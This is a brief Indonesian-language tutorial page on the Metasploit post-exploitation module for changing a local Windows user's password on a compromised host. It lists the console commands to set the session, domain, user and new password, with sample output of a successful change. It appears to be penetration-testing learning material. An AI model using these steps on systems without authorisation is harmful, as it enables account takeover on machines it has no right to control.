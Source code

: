 # change_password

Modul `change_password` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengubah password akun pengguna lokal pada komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/change_password
set NEW_PASSWORD <PASSWORD_BARU>
set OLD_PASSWORD <PASSWORD_LAMA>
set SESSION <ID>
set SMBDomain <DOMAIN>
set SMBUser <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Changing ADMIN-PC\fixploit03 password to 10101010...
[+] Password change successful.
[*] Post module execution completed
```
